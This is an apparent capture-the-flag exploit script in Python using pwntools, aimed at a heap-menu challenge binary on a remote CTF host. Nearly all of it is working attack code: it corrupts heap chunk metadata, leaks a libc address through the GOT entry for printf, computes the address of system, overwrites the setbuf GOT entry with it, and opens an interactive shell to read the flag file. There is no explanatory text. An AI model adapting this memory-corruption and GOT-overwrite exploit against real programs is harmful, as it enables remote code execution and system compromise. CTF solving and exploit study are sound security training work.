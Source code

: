 ```py
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r      = lambda n=4096, proc=None: proc.recv(n) if proc else p.recv(n)
rl     = lambda proc=None: proc.recvline() if proc else p.recvline()
ru     = lambda delim=b'\n', proc=None: proc.recvuntil(delim) if proc else p.recvuntil(delim)
ra     = lambda proc=None: proc.recvall() if proc else p.recvall()

def GDB():
    gdb.attach(p, gdbscript="""
        b*main+119

        """)

if args.REMOTE:
    p = remote("pwn2.cscv.vn", "3333")
else:
    p = process([exe.path])
    if args.GDB:
        GDB()

# Gud luk pwner !
def create():
    sla(b'> ', b'1')

def read(idx):
    sla(b'> ', b'2')
    slna(b'Index: ', idx)

def write(idx, content):
    sla(b'> ', b'3')
    slna(b'Index: ', idx)
    sl(content)

create()  
create()     

payload = b'\x00' * 40     
payload += p64(0x41)
payload += p64(1)       
payload += p64(0x404008+1)     
write(0, payload)

read(0x4010)

leak = rl()
printf_leak = (u64(leak.ljust(8,b'\x00')) & 0xffffffffff ) << 8
info(f'printf_leak: {hex(printf_leak)}')
libc.address = printf_leak - libc.sym['printf']
info(f'libc.address: {hex(libc.address)}')
system = p64(libc.sym['system'])
info(f'system: {hex(libc.sym["system"])}')

payload = b'/bin/sh\x00' + p64(0)*4 + p64(0x41) + p64(1) + p64(0x404010)
write(0, payload)

write(libc.sym['setbuf'] & 0xffffffff, system)

sla(b'> ', b'3')
slna(b'Index: ', b'0')
sl('cat flag.txt')

p.interactive()
```
